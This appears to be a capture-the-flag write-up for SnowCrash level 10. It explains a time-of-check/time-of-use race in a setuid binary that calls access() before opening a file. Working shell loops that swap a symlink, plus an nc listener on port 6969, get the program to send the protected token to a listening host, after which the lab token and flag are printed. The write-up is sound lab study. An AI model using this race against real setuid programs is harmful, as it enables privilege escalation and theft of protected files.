 # LEVEL 10

```sh
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

**level10:** executable program with a setuid binary, which means it runs with the privileges of the file owner `flag10`, not the user executing it `level10`.

**token:** regular file The token file is owned by `flag10` and has permissions `-rw-------`, meaning only the `flag10` user can read it. The level10 user cannot access it directly.

- So we need to find a way to read `token` using `level10`

```
level10@SnowCrash:~$ ./level10 
./level10 file host
	sends file to host if you have access to it
level10@SnowCrash:~$ strings level10 
...
access
...

```

As  we can see access sends a file to host after using access to check for permissions


While reading `access` man you find:

> NOTES
       Warning:  Using  access()  to  check  if  a user is authorized to, for example, **open a file
       before actually doing so using open(2) creates a security  hole**,  because  the  user  might
       exploit  the  short  time  interval between checking and opening the file to manipulate it.
       For this reason, the use of this system call should  be  avoided.   (In  the  example  just
       described,  a safer alternative would be to temporarily switch the process's effective user
       ID to the real ID and then call open(2).)

So access creates a vulnerability that allows unauthorized users to access the file because there is a brief period between checking access and actually opening the file.
We can exploit the time window to create a symlink to the token file in a location where level10 has access.

### terminal 1:
```sh
level10@SnowCrash:/tmp/tmp.TIGospeoP7$ mktemp
/tmp/tmp.44KCdpq0hb
level10@SnowCrash:/tmp/tmp.TIGospeoP7$ while true; \
do ln -fs /home/user/level10/token /tmp/link ; \
ln -fs /tmp/tmp.44KCdpq0hb  /tmp/link ; \
done
```

### terminal 2:
```sh
level10@SnowCrash:~$ while true; \
do ./level10 /tmp/link 192.168.1.11  > /dev/null; \
done
```

### terminal 3:
```sh
level10@SnowCrash:~$ nc -lk 6969 | grep -v '.*( )*.'
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
^C
```

Now we can try logging in as user flag10 and run the getflag command
```sh
level10@SnowCrash:~$ su flag10
Password: 
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```
